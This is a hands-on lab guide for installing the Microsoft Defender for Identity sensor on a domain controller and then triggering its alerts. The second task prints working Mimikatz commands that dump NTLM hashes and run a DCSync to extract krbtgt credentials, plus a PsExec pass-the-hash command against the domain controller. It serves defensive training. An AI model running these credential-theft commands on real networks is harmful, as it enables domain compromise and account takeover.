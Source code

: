 # Hands on Labs - Day 3 
## Estimated Duration: 90 Minutes
### Exercise: 1

### Task 1: Deploy Microsoft Defender for Identity Sensor on Domain Controllers

In this task you will install and configure the Defender for Identity sensor on a domain controller to monitor identity-based threats.

1. Sign in to the Microsoft Defender Portal, open a browser and navigate to `security.microsoft.com`.

   - If you see the **Sign in to Microsoft Azure** tab, you will see the login screen. Enter the following email/username, and click on **Next**.

   * **Email/Username:** <inject key="AzureAdUserEmail"></inject>
     
   - Now enter the following password and click on **Sign in**.
   
   * **Password:** <inject key="AzureAdUserPassword"></inject>

1. On the Microsoft Defender page, select **Settings** and select **Identities** and you will be navigated to **Microsoft Defender for Identity** page.

      ![](../media/E1T1S2.png)

1. To create a Sensor, in the **Identities** section, click **Sensors** at the top, then select **Add sensor** in the top-right corner.

      ![](../media/E1T1S3.png)

1. On the **Simplify your installation process** pop-up, click **Continue with classic sensor**.

      ![](../media/E1T1S4.png)

1. A pop-up will display a **Download installer** button and an **Access key**. Click **Download installer** to download `Azure ATP Sensor Setup.zip`.

      ![](../media/E1T1S5.png)

1. Copy the **Access key** to your clipboard which will be used during the installation.

      ![](../media/E1T1S6.png)

1. Navigate to **Powershell (Admin)** and then run the below command to verify the connectivity and make sure to replace the `<your-workspace-name>` with your Defender for Identity workspace name

      ```shell
      https://<your-workspace-name>sensorapi.atp.azure.com
      ```

1. From your VM, navigate to the downloaded `Azure ATP Sensor Setup.zip` file in the Downloads folder, extract it to `C:\ATP`, and run `Azure ATP Sensor Setup.exe` as administrator.

1. On the Setup wizard follow the below steps:
     - Accept the license terms and click **Next**.
     - Enter the **Access key** copied earlier and click **Next**.
     - Choose the default installation path (e.g., `C:\Program Files\Azure Advanced Threat Protection Sensor`) and click **Install**.
   - Wait for the installation to complete.

1. Return to the Microsoft Defender portal, go to **Settings** > **Identities** > **Sensors**, find the sensor for `DC01.yourdomain.com`, and verify that the **Status** shows **running** within 5–10 minutes.

### Task 2: Simulate and Detect Lateral Movement Attacks (Read-Only)

In this task you will simulate Pass-the-Hash and DC Sync attacks and detect them using Defender for Identity.

#### **Simulate Pass-the-Hash Attack**:

1. Open a command prompt as administrator on `TestPC1`, navigate to the Mimikatz folder (e.g., `cd C:\Tools\Mimikatz`), and run Mimikatz to extract NTLM hashes.

     ```powershell
     mimikatz.exe "sekurlsa::logonpasswords" exit
     ```
1. Note the NTLM hash for the user.

1. Use the extracted hash to access a domain resource we are using PsExec to initiate a remote session with the domain controller. Run the following command to access the Domain Controller:


     ```powershell
     psexec.exe \\DC01.yourdomain.com -u yourdomain\testuser1 -p <NTLM-hash> cmd
     ```
     > **Note:** Replace `DC01.yourdomain.com` with your Domain and`<NTLM-hash>` with the hash obtained from the previous step.
       
#### **Simulate DC Sync Attack**:

1. In the same PowerShell session, run the below command to simulate a DC Sync attack and extract the credentials of the krbtgt account.

     ```powershell
     mimikatz.exe "lsadump::dcsync /domain:yourdomain.com /user:krbtgt" exit
     ```

1. Now you can check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Suspected Pass-the-Hash attack (NTLM)** for the Pass-the-Hash simulation.
     - **Suspected DCSync attack** for the DC Sync simulation.
